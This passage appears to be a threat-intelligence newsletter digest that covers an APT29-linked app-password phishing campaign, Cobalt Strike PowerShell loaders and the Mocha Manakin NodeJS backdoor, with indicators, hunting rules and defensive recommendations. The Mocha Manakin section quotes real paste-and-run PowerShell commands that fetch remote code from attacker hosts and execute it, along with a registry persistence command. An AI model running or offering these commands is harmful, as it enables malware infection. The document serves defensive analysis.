

# The Feed 2025-06-23


## AI Generated Podcast

[Spotify](https://open.spotify.com/episode/4bz2RnQ8KEgPzc0OXwPXy1?si=KUI_-YmwR3iEisoNAkeSPw)

## Table of Contents

- [**Same Sea, New Phish: Russian Government-Linked Social Engineering Targets App-Specific Passwords**](#same-sea-new-phish-citizen-lab-russian-government-linked-social-engineering-targets-app-specific-passwords-the-citizen-lab): This report details a sophisticated **Russian government-linked social engineering attack** (attributed to UNC6293, likely APT29) that successfully deceived a prominent Russia expert into creating and sharing **App-Specific Passwords (ASPs)** to bypass **Multi-Factor Authentication (MFA)** and gain persistent access to his email accounts.

- [**Cobalt Strike Operators Leverage PowerShell Loaders Across Chinese, Russian, and Global Infrastructure**](#cobalt-strike-operators-leverage-powershell-loaders-across-chinese-russian-and-global-infrastructure): This article details the discovery and analysis of a **PowerShell loader** that **Cobalt Strike operators** use for **in-memory execution** and connecting to **command-and-control servers**, primarily in China and Russia, employing evasion techniques like **API hashing** and **reflective DLL loading**.

- [**Mocha Manakin delivers custom NodeJS backdoor via paste and run**](#mocha-manakin-delivers-nodejs-backdoor-via-paste-and-run): This article describes **Mocha Manakin**, a threat actor employing a "**paste and run**" initial access technique to deliver **NodeInitRAT**, a custom **NodeJS backdoor** capable of establishing persistence, performing reconnaissance, issuing arbitrary commands, and deploying additional payloads, with a moderate confidence assessment that its unmitigated activity could lead to **ransomware**.

- [**Resurgence of the Prometei Botnet**](#resurgence-of-the-prometei-botnet): This article analyzes the resurgence of the **Prometei botnet**, a modular malware family with Linux and Windows variants focused on **cryptocurrency mining** and **credential theft**, which utilizes **domain generation algorithms (DGA)** and **self-updating features** for resilience and evasion.

- [**Silver Fox APT Targets Public Sector via Trojanized Medical Software**](#silver-fox-apt-targets-public-sector-via-trojanized-medical-software): This article details a multi-stage campaign by the **China-based Silver Fox APT** group, which targets healthcare and public sector organizations by distributing **trojanized medical software** and leveraging **Alibaba cloud infrastructure** to deploy the **Winos 4.0 (ValleyRAT) remote access trojan**, disable antivirus, and exfiltrate data.


## Same Sea, New Phish: Russian Government-Linked Social Engineering Targets App-Specific Passwords

### Summary
This strategic threat intelligence details a highly sophisticated and novel social engineering campaign attributed to the Russian state-sponsored threat actor UNC6293, which Google’s Threat Intelligence Group (GTIG) links with low confidence to APT29, also known as ICECAP, Cozy Bear, Midnight Blizzard, or Blue Bravo. The campaign specifically targeted prominent academics and critics of Russia, notably Keir Giles, an expert on Russian information and influence operations. The primary innovation in this attack is its focus on deceiving targets into creating and sharing App-Specific Passwords (ASPs) to bypass Multi-Factor Authentication (MFA), a tactic not previously widely observed in social engineering.

The adversaries demonstrated remarkable patience, meticulous planning, and adaptability, employing extensive rapport-building techniques and tailored lures to overcome common user vigilance and platform detection mechanisms. This shift reflects a broader trend where attackers are forced to develop more complex methods due to increased user awareness of phishing, advancements in detection technologies, and the widespread adoption of more secure MFA solutions like hardware keys. The ultimate objective appears to be gaining persistent access to victim mailboxes, likely for data exfiltration that could be manipulated and selectively released as part of future information operations, a common tactic for this type of actor. This attack highlights a significant security risk for users, particularly those with personal Gmail accounts, as ASPs remain a potential avenue for compromise if users are socially engineered into disclosing them.

### Technical Details
The attack on Keir Giles unfolded over several weeks, involving at least 10 exchanges, showcasing the attacker's discipline and patience. The operational TTPs involved a multi-stage social engineering approach:

**Initial Contact and Lure Development:**
The attack began with an email on May 22, 2025, from a Gmail account (claudie.s.weber@gmail.com) purporting to be from a U.S. State Department official named "Claudie S. Weber". This initial email offered a highly plausible scenario, inviting Mr. Giles to a consultation, a common type of request for an expert of his standing. To bolster credibility, the attacker included four fictitious @state.gov email addresses on the CC line. This tactic relied on the attacker's awareness that the State Department’s email server is configured to accept all messages, even if the addresses don't exist, preventing bounce-back responses that might raise suspicion. The email's English was grammatical and fluent, though generic, suggesting the possible use of Large Language Models (LLMs) or similar tools for drafting. The timing of the email, received within Washington D.C. working hours, further added to its perceived legitimacy, establishing what Mr. Giles referred to as "pillars of plausibility".

**The Core Deception – "MS DoS Guest Tenant" and ASP Creation:**
Upon Mr. Giles's expression of interest, the attacker introduced the central element of the deception: an invitation to join the State Department’s "MS DoS Guest Tenant" platform. The attacker subsequently sent a PDF file containing detailed instructions on how to register for this fake account. This PDF was meticulously crafted to appear as an official document, complete with markings, revision history, and devoid of the linguistic errors often found in less sophisticated phishing lures.

The critical step involved the PDF instructing the target to create an App-Specific Password (ASP) on their Google email account. The attacker skillfully reframed this process, leading Mr. Giles to believe he was creating and sharing an ASP to gain access to a "secure" State Department resource, thereby "enabling secure communications between internal employees and external partners". In reality, providing the ASP granted the attacker full and persistent access to his accounts. As part of the ruse, the instructions directed Mr. Giles to enter "ms.state.gov" into the "App name" field when generating the ASP on Google’s "App passwords" page. This text was merely a label visible only to the user and served no functional purpose beyond enhancing the illusion of interacting with an official government application. In a second observed campaign, GTIG noted the use of a "Ukrainian and Microsoft-themed ASP name" in the lure PDF. After creation, the target was instructed to send the 16-character ASP code to the attacker.

**Adaptability and Persistence:**
The attackers demonstrated significant flexibility. When Mr. Giles initially indicated a conflict with the proposed meeting time, they adapted by suggesting setting up the platform for future use, avoiding any pressure or urgency. Furthermore, when Mr. Giles encountered difficulties creating ASPs, the attackers "troubleshooted" with him, asking for screenshots of his Google account pages for ASPs and 2-Step Verification (https://myaccount.google.com/u/0/apppasswords and https://myaccount.google.com/signinoptions/twosv). This ensured the target could successfully generate the ASPs on the accounts they aimed to compromise. Once the ASP was obtained, the attackers used it to configure a mail client, thereby establishing persistent access to the victim's mailbox. Logins into victim accounts were observed from residential proxies and Virtual Private Servers (VPS), with some infrastructure being reused across different victim or attacker accounts.

**Attribution and Impact:**
Google's Threat Intelligence Group (GTIG) identified the actor as UNC6293, a Russian state-sponsored entity, with low confidence linking them to APT29 / ICECAP (also known as Cozy Bear, Midnight Blizzard, or Blue Bravo). Google later detected the attack, locked down the compromised accounts, and disabled the attacker's email. Mr. Giles subsequently found a suspicious login attempt from the Digital Ocean IP 178.62.47[.]109 on one of his accounts on June 4, 2025. It is suspected that the exfiltrated material from his accounts will likely be manipulated and selectively released as part of future information operations, a common tactic for actors with a similar track record.

### Countries
*   **Targeted Countries:** United Kingdom (Keir Giles is a prominent British expert). Broader targeting includes "prominent academics and critics of Russia". Ukrainian themes were observed in a second campaign by the same actor.
*   **Originating Countries:** Russia (attributed to Russian state-backed UNC6293/APT29).

### Industries
*   **Targeted Industries:**
    *   Academia (specifically prominent academics).
    *   Think Tanks (Chatham House, a UK-based policy institute).
    *   Civil Society Organizations.
    *   Individuals at high risk due to their work, particularly those involved in conflicts, litigation, advocacy, and other high-profile topics related to Russia.

### Recommendations
Organizations and individuals can implement several measures to protect against similar sophisticated social engineering attacks:

*   **Multi-Factor Authentication (MFA):** All users should enable MFA on every account where it is available.
*   **Google's Advanced Protection Program (APP):** For individuals at higher risk of targeted attacks (e.g., civil society, academics working on sensitive topics), enrolling in Google's APP is strongly recommended. This program provides heightened security requirements and prevents an account from creating an ASP, effectively blocking this specific attack vector.
*   **Exercise Caution and Out-of-Band Verification:** Users should exercise extreme caution when receiving unsolicited emails or messages. If an exchange requests sharing account information or modifying settings, communications should be verified "out-of-band" (e.g., via a phone call to a known work number, not replying to the email itself) before proceeding.
*   **Organizational ASP Management:** For organizations, it is crucial to be aware of which services allow users to enable ASPs. Unless specifically required for certain users or use cases, ASPs should be disabled.
*   **User Security Education:** Incorporate education about ASPs into user security awareness programs, explaining their purpose, how they work, and the implications of sharing them, especially for personal accounts.
*   **Phasing out LSAs/ASPs (for Providers):** Google Workspaces has a plan to phase out support for Less Secure Apps (LSAs) and their associated ASPs, a sensible security measure. Other providers of similar services should consider following suit where feasible.
*   **Enhanced ASP User Interface Warnings (for Providers):** Providers offering ASPs should consider adding additional warning text or explanatory interstitials on their "App passwords" pages. These warnings should alert users to the possibility that attackers may specifically target ASPs through social engineering.
*   **Regular ASP Nudges and Approval Steps (for Providers):** Providers should regularly remind users about any enabled ASPs on their accounts. Additionally, consider implementing a visible approval step or notification requirement when the first connection is made using a newly created ASP.

### Hunting methods
The provided sources detail the attack methodologies and technical indicators of compromise (IOCs) but do not explicitly provide specific Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules, nor any specific hunting queries.

However, based on the TTPs described, threat hunting efforts could focus on the following areas:

*   **Email Gateway/Content Analysis:**
    *   Monitor for emails with suspicious sender addresses (e.g., `claudie.s.weber@gmail.com`) or those purporting to be from official government entities but originating from commercial email providers.
    *   Detect emails with spoofed government domains in the CC line (e.g., `state.gov`) that appear to accept messages without bounce-back, which can indicate attacker awareness of server configurations.
    *   Look for keywords or phrases in email content related to "MS DoS Guest Tenant," "secure communications between internal employees and external partners," invitations to "private online conversations" asking to set up platforms, or requests for "App-Specific Passwords" or "app passwords" to access a "secure cloud environment."
    *   Filter for emails containing attachments identified as the lure PDF (SHA256: `329fda9939930e504f47d30834d769b30ebeaced7d73f3c1aadd0e48320d6b39`).
*   **Account Activity Monitoring:**
    *   Monitor for the creation of new App-Specific Passwords on user accounts, particularly those associated with high-value targets or individuals working on sensitive topics. While Google sends notifications upon ASP creation, security teams should look for these notifications within logs or security alerts.
    *   Look for suspicious login attempts from known attacker infrastructure IPs (e.g., `178.62.47.109`, `91.190.191.117`) or other unusual IP addresses, especially those identified as residential proxies or VPS servers.
    *   Alert on logins occurring shortly after an ASP is created if that ASP was not explicitly authorized by internal IT processes.
    *   Monitor for mail client configurations using newly created ASPs, which might indicate attacker access to the mailbox.
    *   Track access attempts to Google's ASP and 2SV configuration pages (e.g., `myaccount.google.com/u/0/apppasswords`, `myaccount.google.com/signinoptions/twosv`) if these are unexpected or originate from unusual contexts, especially if accompanying requests for screenshots.
*   **PDF Document Analysis:**
    *   Scan for PDF files matching the identified lure document hash (`329fda9939930e504f47d30834d769b30ebeaced7d73f3c1aadd0e48320d6b39`) in email attachments or file shares.

### IOC
**Hashes**
```
329fda9939930e504f47d30834d769b30ebeaced7d73f3c1aadd0e48320d6b39
```
**IP Addresses**
```
178.62.47.109
91.190.191.117
```
**Email Addresses**
```
claudie.s.weber@gmail.com
```
**Domains (Used in Lure/Ruse)**
```
ms.state.gov
state.gov
```

**Original links:**
*   Citizen Lab: [Same Sea, New Phish: Russian Government-Linked Social Engineering Targets App-Specific Passwords](https://citizenlab.ca/2025/06/same-sea-new-phish-russian-government-linked-social-engineering-targets-app-specific-passwords/)
*   The Record from Recorded Future News: [Takeover of British Russia expert’s email accounts used novel phishing tactic](https://therecord.media/takeover-of-british-russia-expert-email-accounts-used-novel-phishing-tactic)
*   Google Cloud Blog: [What’s in an ASP? Creative Phishing Attack on Prominent Academics and Critics of Russia](https://cloud.google.com/blog/topics/threat-intelligence/creative-phishing-attack-prominent-academics-critics-russia)

## Cobalt Strike Operators Leverage PowerShell Loaders Across Chinese, Russian, and Global Infrastructure

### Summary
The current threat landscape continues to demonstrate the pervasive and adaptive utilization of Cobalt Strike by diverse threat actors for their post-exploitation operations. A significant trend involves the deployment of highly stealthy PowerShell loaders that are engineered to execute entirely in memory, employ API hashing, and leverage reflective DLL loading to circumvent traditional disk-based detection mechanisms. This sophisticated approach enables attackers to establish robust command-and-control (C2) channels, frequently by exploiting cloud infrastructure and camouflaging malicious traffic through the use of forged User-Agent strings that mimic legitimate browser activity.

While the precise attribution for specific campaigns often remains elusive, the observed operational patterns—including the deployment of cracked Cobalt Strike beacons and the use of short-lived infrastructure—are consistent with tactics commonly seen in financially motivated threat campaigns. Geographically, the core infrastructure predominantly leverages servers located in China and Russia, complemented by the strategic use of cloud platforms in the United States, Singapore, and Hong Kong to support broader distribution, indicating a wide global footprint.

Beyond specific incident analysis, the capability to extract and analyze Cobalt Strike beacon configurations from public sources, such as Shodan, offers invaluable long-term threat intelligence. This proactive intelligence gathering allows security teams to identify common `SpawnTo` values (processes used for injecting payloads) and unique watermarks that can link to specific campaigns or detect the use of pirated versions of the framework. Such insights are critical for enhancing detection and response capabilities against Cobalt Strike, a tool frequently exploited by adversaries.

### Technical Details
The analysis revealed an active post-exploitation setup primarily leveraging a suspicious PowerShell script named `y1.ps1`. This script was initially discovered hosted in an open directory on a Chinese server (IP: 123.207.215.76:80) attributed to Shenzhen Tencent Computer Systems Company Ltd.. The script, a 4 KB file, was first observed on June 1, 2025.

The `y1.ps1` script functions as a shellcode loader, designed specifically for in-memory execution to evade disk-based detection. Its execution flow begins by enabling strict mode for cleaner operation. It then defines two critical functions:
*   `func_get_proc_address`: This function retrieves memory addresses of Windows API functions (like `VirtualAlloc`) from Dynamic Link Libraries (DLLs) using reflective techniques.
*   `func_get_delegate_type`: This function dynamically creates a delegate, which is then used to call functions directly in memory.

Upon execution on a 64-bit system, the script decodes a Base64-encoded byte array. This decoded array is subsequently decrypted using an XOR operation with a key of 35. After decryption, the script allocates executable memory using `VirtualAlloc`. The decrypted shellcode is then copied into this allocated memory space and executed via the dynamically created delegate, effectively bypassing traditional disk-based security controls.

The decrypted shellcode itself operates as a downloader, with its primary objective being to establish a connection to a remote server to fetch and execute a second-stage payload. This shellcode employs several sophisticated evasion techniques:
*   **API Hashing**: To avoid detection by static analysis tools that look for known API function names, the shellcode calculates a unique hash for each Windows API function it intends to use. It compares these calculated hashes against pre-computed, hardcoded values. Once a match is found, the corresponding function's memory address is retrieved and called. The hashing algorithm involves converting each character of the function name to uppercase, rotating the accumulated hash value 13 bits to the right, and then adding the character's value. This process yields a unique hash that effectively conceals the original function name.
*   **Dynamic API Resolution**: The shellcode sets up its execution environment by traversing the Process Environment Block (PEB) to locate loaded DLLs. Using its hashing routine, it identifies essential functions such as `LoadLibraryA`, which is then used to load `wininet.dll`, a system library vital for internet-related functions. Subsequently, it resolves other necessary APIs like `InternetOpenA`, `InternetConnectA`, `HttpOpenRequestA`, `HttpSendRequestA`, and `InternetReadFile`, laying the groundwork for its command-and-control (C2) communications.
*   **Forged User-Agent Strings**: During its C2 communication, the shellcode initiates an HTTPS connection (port 443) to its C2 server and sets a custom `User-Agent` string to mimic legitimate browser traffic. An example of this forged string observed is `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; yie9)`.
*   **Reflective DLL Loading**: The final Cobalt Strike loader component itself implements a reflective DLL loading technique, enabling it to load directly from memory without relying on the standard Windows loader, further enhancing its stealth.

The shellcode initiates an HTTPS connection on port 443 to its second-stage C2 server, identified as `y2n273y10j[.]cfc-execute[.]bj.baidubce[.]com`, which is hosted on Baidu Cloud Function Compute. After successfully establishing the connection using `InternetConnectA`, the shellcode sends an HTTP request using `HttpOpenRequestA` and `HttpSendRequestA`, with options configured via `InternetSetOptionA`. A retry loop is implemented, allowing up to 10 attempts if the connection initially fails.

Once the connection is established and the request is successful, the shellcode utilizes `VirtualAlloc` to create a memory region with read, write, and execute permissions. The second-stage payload is then downloaded directly into this memory space using `InternetReadFile`. Finally, the shellcode executes the downloaded payload by jumping to the start of this memory region.

Analysis of the decoded payload configuration revealed it to be a Cobalt Strike Beacon, communicating with the IP address `46.173.27.142`. This IP address is associated with Beget LLC (Russia) under ASN 198610. The C2 node operates over port 50050. SSL certificate metadata for this C2 IP shows a Subject/Common Name of "Major Cobalt Strike" and an Issuer Organization of "cobaltstrike," which are strong indicators of Cobalt Strike Beacon usage and consistent with known deployment patterns in post-exploitation and red team operations, including by actors leveraging cracked versions of the framework. This particular C2 IP was observed to be short-lived, with both first and last seen dates on May 28, 2025.

Additional observations from broader threat intelligence indicate that Cobalt Strike operators frequently customize `SpawnTo` values (the processes into which the beacon injects itself) and watermarks (unique identifiers within Cobalt Strike configurations). Common `SpawnTo` processes observed include `rundll32.exe` (e.g., `%windir%\syswow64\rundll32.exe`, `%windir%\sysnative\rundll32.exe`), `dllhost.exe`, `gpupdate.exe`, `runonce.exe`, `notepad.exe`, `wmiprvse.exe`, `WerFault.exe`, and `WUAUCLT.exe`. Prominent watermarks include `987654321` (often linked to pirated Cobalt Strike), `666666666`, and `391144938` (which has been associated with DLL hijacking in the Asian gambling sector).

### Countries
*   **China (CN)**: Initial PowerShell script (`y1.ps1`) hosted on a server attributed to Shenzhen Tencent Computer Systems Company Ltd. (IP: 123.207.215.76). Other Cobalt Strike open directory hosts identified in China include IPs under Hangzhou Alibaba Advertising Co.,Ltd., CHINA UNICOM China169 Backbone, Huawei Cloud Service data center, and China Unicom Beijing Province Network.
*   **Russia (RU)**: The final Cobalt Strike Beacon communicated with a C2 IP (46.173.27.142) associated with Beget LLC. Other Cobalt Strike open directory hosts identified in Russia include IPs under Beget LLC and LLC Baxet.
*   **United States (US)**: A few IOCs were identified on cloud platforms in the United States, suggesting their occasional use to support distribution. Specific open directory hosts under DIGITALOCEAN-ASN were observed.
*   **Singapore (SG)**: Cloud platforms in Singapore, specifically Google Cloud Platform and DIGITALOCEAN-ASN, were identified as hosting Cobalt Strike open directories, indicating their use for distribution.
*   **Hong Kong (HK)**: Cloud platforms in Hong Kong, specifically Alibaba US Technology Co., Ltd., were identified as hosting Cobalt Strike open directories.
*   **South Korea (KR)**: An IP under AMAZON-02 was identified in South Korea, hosting a Cobalt Strike open directory.

### Industries
While no specific industries are explicitly stated as universally targeted, the use of cracked Cobalt Strike beacons and ephemeral infrastructure aligns with techniques seen in "financially motivated threat campaigns". Additionally, a specific Cobalt Strike watermark (`391144938`) has been linked to "Chinese entanglement DLL hijacking in the Asian gambling sector", suggesting that the gambling industry could be a specific target for certain campaigns utilizing this tool.

### Recommendations
To effectively mitigate the risks posed by similar attacks leveraging Cobalt Strike and PowerShell loaders, the following technical recommendations are advised:

*   **PowerShell Hardening**:
    *   Implement strict PowerShell execution policies to restrict the execution of unsigned scripts.
    *   Enable comprehensive PowerShell logging to capture and monitor suspicious activity.
    *   Actively monitor for unusual PowerShell commands, such as `Add-Type` or those involved in custom memory allocation.
    *   Disable PowerShell or other scripting tools if they are not strictly necessary for operational functions on specific machines.
*   **Network Security Controls**:
    *   Proactively block known malicious IP addresses and domains at the network perimeter, including `46.173.27.142` and the Baidu Cloud endpoint `y2n273y10j[.]cfc-execute[.]bj.baidubce[.]com`.
    *   Implement egress filtering and monitor for unusual outbound traffic, especially connections attempting to use forged `User-Agent` strings that mimic legitimate browser traffic.
    *   Limit internet access from sensitive machines to reduce the attack surface.
*   **Endpoint Detection and Response (EDR)**:
    *   Deploy and configure a robust EDR solution capable of detecting sophisticated in-memory attacks and reflective DLL loading techniques.
    *   Enable and tune Windows Defender's Exploit Guard and Attack Surface Reduction (ASR) rules to prevent common post-exploitation techniques used by adversaries.
*   **Threat Hunting & IOC Deployment**:
    *   Monitor for SSL certificates where the Subject/Common Name is "Major Cobalt Strike" or the Issuer Organization is "cobaltstrike," as these are strong indicators of Cobalt Strike C2 infrastructure.
    *   Deploy all identified Indicators of Compromise (IOCs), including IP addresses, domains, and file hashes, across your security tools (e.g., SIEM, EDR, IDS/IPS, firewalls).
    *   Conduct proactive threat hunting by querying historical logs using these IOCs and observed `SpawnTo` patterns and watermarks to identify past or ongoing compromises.
*   **User Training**:
    *   Educate users about the risks of running unknown scripts and accessing unsecured web directories to prevent initial compromise.

### Hunting methods
Several hunting methods can be employed to detect and track Cobalt Strike activities:

*   **Code Search Query**:
    *   **Query**: `func_get_delegate_type`
    *   **Filter**: File extension `.ps` (for PowerShell scripts)
    *   **Logic**: This keyword is consistently associated with reflective execution within PowerShell-based loaders, making it effective for identifying suspicious scripts involved in in-memory execution.
*   **Shodan Search Filter**:
    *   **Query**: `product:"Cobalt Strike"`
    *   **Logic**: This filter queries Shodan's database for public-facing servers identified as running Cobalt Strike, allowing for the extraction of their beacon configurations, including `SpawnTo` values and watermarks.
*   **Certificate Dataset Query**:
    *   **Query**: `Certificates.IssuerOrganization:cobaltstrike`
    *   **Logic**: Cobalt Strike often uses self-signed SSL certificates with "cobaltstrike" as the issuer organization. This query can identify potential C2 servers used by attackers.
*   **PowerShell Data Parsing (for extracted Shodan data)**:
    ```powershell
    # Read Cobalt Strike beacon configs from JSON file
    $beaconConfigs = Get-Content .\beacon_data.json | ConvertFrom-Json
    $beaconSpawnTos = @()
    $beaconWatermarks = @()

    # For each beacon config, add SpawnTo values and watermark to arrays
    foreach ($beacon in $beaconConfigs) {
        $beaconSpawnTos += $beacon.'post-ex.spawnto_x64'
        $beaconSpawnTos += $beacon.'post-ex.spawnto_x86'
        $beaconWatermarks += $beacon.watermark
    }

    # Sort Cobalt Strike SpawnTo values by most prevalent (useful for identifying common injection targets)
    $beaconSpawnTos | group | sort -Property count -Descending | ft -Property count, name

    # Sort Cobalt Strike watermark values by most prevalent (useful for tracking campaigns or pirated versions)
    $beaconWatermarks | group | sort -Property count -Descending | ft -Property count, name
    ```
    *   **Logic**: This PowerShell script processes the JSON data downloaded from Shodan, specifically extracting and categorizing `SpawnTo` values (processes into which the beacon might inject) and `watermark` values. These sorted lists can highlight common adversary behaviors and unique campaign identifiers, aiding in the development of targeted detection rules and long-term tracking.
*   **Sigma Rule (Process Creation Detection)**:
    ```yaml
    title: DllHost Execution Without CommandLine Parameters
    id: aca8588b-aabd-4a40-a9a5-827fb5134b5e
    status: test
    description: Detects dllhost.exe without any parameters as seen Cobalt Strike beacon configs
    references:
      - https://www.cobaltstrike.com/help-opsec
    author: Tony Lambert (@ForensicITGuy)
    date: 2025-05-18
    logsource:
      category: process_creation
      product: windows
    detection:
      selection:
        CommandLine|endswith:
          - ' \dllhost.exe'
      condition: selection
    falsepositives:
      - Possible, will need environment tuning
    level: high
    ```
    *   **Logic**: This Sigma rule targets `process_creation` events on Windows systems. It specifically looks for instances of `dllhost.exe` being executed where its command line ends solely with `\dllhost.exe`, indicating an absence of additional parameters. This pattern is a known `SpawnTo` value used by Cobalt Strike beacons when injecting into `dllhost.exe`, which typically expects command-line arguments in legitimate use. Detecting `dllhost.exe` without parameters can signify malicious activity. This rule may require environmental tuning to reduce false positives. Other similar Sigma rules exist for `rundll32.exe` without parameters.

### IOC
**Hashes (SHA-256)**
```
cdd757e92092b9a72dec0a7529219dd790226b82c69925c90e5d832955351b52
23a04d2ae94998b26c42c327f9344b784eb00d0a42c0ade353275bdedff9824f
27f88c7005f33bfc67731cb732c7c72e0cea7f97db1f15bcf5880d3e7f7f85eb
6954005ab1b1d2deec940181674000e394f860fe4f626d6b0abf63453d5fff48
ed2b7d55781414cdb3e0f64de6d9fea9bf282ee49e12b112f9e0748d5266fd60
1f0f4415b738198cc82359212f3ead281b7eb38070163a7782584f77346e619f
eed87a02d126c3ac0ab90a66f4e4a58f24d6a0f4028a2643e83a3a8b075cb5ac
69b1261eac205aefb6a5237ff3d87ef515e838184c1616ec935a4f7f4aa04ac1
60652f62ec7772b611f3a62fd93d690e677b616e972a0444650f0a2ea597f77f
1d4f814d06a3893545f51f1158d6677b1b083a90ab57ba03c58f8d26c29e5a10
```


**Domains**
```
y2n273y10j[.]cfc-execute[.]bj.baidubce[.]com
```


**IP Addresses**
```
123.207.215.76 (Host for y1.ps1)
46.173.27.142 (Cobalt Strike Beacon C2)
182.92.76.239
35.240.168.8
167.71.215.63
82.157.78.234
116.114.20.180
111.229.158.40
217.114.8.138
8.210.77.1
124.71.137.28
137.184.103.54
8.137.147.254
45.147.201.165
43.202.62.102
8.134.148.103
124.223.12.165
146.190.72.88
150.158.214.98
121.37.66.33
114.116.50.214
175.178.33.154
8.135.237.16
```


**Original links:**
[https://hunt.io/blog/cobaltstrike-powershell-loader-chinese-russian-infrastructure](https://hunt.io/blog/cobaltstrike-powershell-loader-chinese-russian-infrastructure)\
[https://forensicitguy.github.io/squeezing-cobalt-strike-intel-from-shodan/](https://forensicitguy.github.io/squeezing-cobalt-strike-intel-from-shodan/)

## Mocha Manakin delivers custom NodeJS backdoor via paste and run

### Summary
Mocha Manakin is a recently observed threat activity cluster, tracked since January 2025, that primarily leverages the "paste and run" technique for initial access. This threat actor is notable for deploying a custom NodeJS-based backdoor, which Red Canary has named NodeInitRAT. While direct observation of Mocha Manakin activity progressing to ransomware has not yet occurred as of May 2025, there is a moderate confidence assessment that unmitigated Mocha Manakin activity will likely lead to ransomware deployment. This assessment is reinforced by observed overlaps between Mocha Manakin and Interlock ransomware-related activity, including the shared use of paste and run for initial access, the delivery of NodeInitRAT, and common infrastructure.

The "paste and run" initial access technique, also known as Clickfix or fakeCAPTCHA, is highly effective due to its reliance on social engineering that tricks users into executing malicious scripts. Adversaries distribute these lures through various means, such as phishing and web browser injects, creating numerous opportunities for compromise. NodeInitRAT itself is a versatile backdoor designed to establish persistence, perform extensive reconnaissance activities—including enumerating principal names and gathering domain details—and issue arbitrary commands, ultimately facilitating the deployment of additional payloads on compromised systems. Communication between NodeInitRAT and adversary-controlled servers occurs over HTTP, frequently utilizing Cloudflare tunnels as intermediary infrastructure. This strategic intelligence highlights the need for robust user education and proactive defensive measures against social engineering and the persistence mechanisms employed by such sophisticated backdoors.

### Technical Details
Mocha Manakin's attack chain begins with initial access via the **Paste and Run** technique, which has shown increased scope and scale since August 2024 due to its effectiveness in tricking users. This technique exploits user conditioning, typically involving lures that prompt users to "fix" their access to a document, website, or software, or to complete a CAPTCHA-style verification. Upon interaction with a "Fix" or "Verify" button within these lures, an obfuscated PowerShell command is covertly copied to the user's clipboard. Users are then provided with "verification steps" that guide them to open a run dialog (e.g., using Windows+R), paste the copied PowerShell command, and press Enter, thereby inadvertently executing the malicious script.

Observed iterations of Mocha Manakin's paste-and-run PowerShell commands demonstrate variations in their methods of downloading follow-on payloads. Examples include:
*   `powershell -NoProfile -Command "$r=iwr 'hxxps://pub-motorola-viking-charger[.]trycloudflare[.]com /12341234'-UseBasicParsing;$s=[Text.Encoding]::UTF8.GetString($r.Content);iex $s"`
    *   This command uses `Invoke-WebRequest` (`iwr`) to download content from a Cloudflare URL, parses it as UTF8, and then executes it using `Invoke-Expression` (`iex`). The `-NoProfile` flag ensures PowerShell starts without loading user profiles, potentially speeding execution and bypassing some detection mechanisms.
*   `powershell -noprofile -w H -c "$r=iwr hxxps://pilot-agent-false-taken[.]trycloudflare[.]com/clou dfla -h @{ 'X-Computer-Name'=$env:COMPUTERNAME};$s=[Text.Encoding]::Utf8.GetString($r.Content);iex $s"`
    *   Similar to the above, this command also downloads and executes content from a Cloudflare URL. However, it additionally includes a custom HTTP header `X-Computer-Name` with the `$env:COMPUTERNAME` environment variable, likely for C2 identification of the compromised host. The `-w H` argument runs the PowerShell window hidden.
*   `"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe " -w h -c "iex $(irm 138.199.156[.]22:8080/$($z = [datetime]::UtcNow; $y = ([datetime]('01/01/' + '1970')); $x = ($z - $y).TotalSeconds; $w = [math]::Floor($x); $v =$w - ($w % 16); [int64]$v))"`
    *   This command explicitly calls `PowerShell.exe` and uses `Invoke-RestMethod` (`irm`) to download content from a direct IP address and `iex` to execute it. The URL path includes a dynamically generated integer based on the current UTC time, likely to vary the request and evade static detections.

Upon successful execution of these paste-and-run PowerShell commands, a PowerShell loader is executed which then downloads a `.zip` file. This `.zip` archive contains a legitimate portable `node.exe` binary. The archive is extracted, and NodeInitRAT is executed by running `node.exe` with the malicious NodeInitRAT code passed directly via the command line. This technique, illustrated by a process execution flow diagram (nodejs[.]org -> `downloaded.zip` -> `node.exe` -> PowerShell executes `node.exe` with NodeInitRAT via command line), is a form of "living off the land" by leveraging a legitimate binary.

Once installed, NodeInitRAT performs a variety of malicious actions:
*   **Persistence**: NodeInitRAT establishes persistence on the compromised system, typically by creating a Windows Registry run key. As of April 2025, this run key is often named "ChromeUpdater".
    *   **Observed Persistence Command**: `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "ChromeUpdater" /t REG_SZ /d "C:\users[redacted]\AppData\Roaming\node-v22.11.0-win-x64\node.exe C:\users[redacted]\AppData\Roaming\node-v22.11.0-win-x64\2fbjs1z6.log" /f`. This command adds a registry entry that executes the legitimate `node.exe` binary, pointing it to the NodeInitRAT code file upon user login.
*   **Reconnaissance**: The backdoor conducts extensive system and domain reconnaissance.
    *   **Observed Reconnaissance Commands**:
